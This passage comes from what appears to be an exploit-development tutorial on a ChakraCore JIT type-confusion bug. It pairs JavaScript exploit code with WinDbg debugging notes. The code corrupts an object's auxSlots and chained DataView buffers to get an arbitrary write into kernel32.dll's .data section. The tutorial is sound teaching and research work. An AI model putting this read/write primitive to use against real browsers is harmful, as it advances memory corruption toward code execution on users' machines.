 ```javascript
}

function main() {
    for (let i = 0; i < 2000; i++) {
        let o = {a: 1, b: 2};
        opt(o, {}, {});
    }

    let o = {a: 1, b: 2};

    opt(o, o, obj);     // Instead of supplying 0x1234, we are supplying our obj

    // Corrupt obj->auxSlots with the address of the first DataView object
    o.c = dataview1;

    // Print debug statement
    print("DEBUG");

    // Corrupt dataview1->buffer with the address of the second DataView object
    obj.h = dataview2;

    // Set dataview2->buffer to kernel32.dll .data section (which is writable)
    dataview1.setUint32(0x38, 0x5b3d0000+0xa4000, true);
    dataview1.setUint32(0x3C, 0x00007fff, true);

    // Overwrite kernel32.dll's .data section's first 8 bytes with 0x4141414141414141
    dataview2.setUint32(0x0, 0x41414141, true);
    dataview2.setUint32(0x4, 0x41414141, true);
}

main();
```

We know from our last debugging session that the function `chakracore!Js::DynamicTypeHandler::SetSlotUnchecked` was responsible for updating `o.c = dataview1`. Let's set another breakpoint here to view our `obj.h = dataview2` line of code in action.

<img src="{{ site.url }}{{ site.baseurl }}/images/2typeconfusion45.png" alt="">

After hitting the breakpoint, we can examine the RCX register, which contains the in-scope dynamic object passed to the `SetSlotUnchecked` function. We can clearly see this is our `obj` object, as `obj->auxSlots` points to our `dataview1` `DataView` object.

<img src="{{ site.url }}{{ site.baseurl }}/images/2typeconfusion46.png" alt="">

We can then set a breakpoint on our final `mov qword ptr [rcx+rax*8], rdx` instruction, which we previously have seen, which will perform our `obj.h = dataview2` instruction.

<img src="{{ site.url }}{{ site.baseurl }}/images/2typeconfusion47.png" alt="">

After hitting the instruction, we can see that our `dataview1` object is about to be operated on, and we can see that the `buffer` of our `dataview1` object currently points to `0x24471ebed0`.
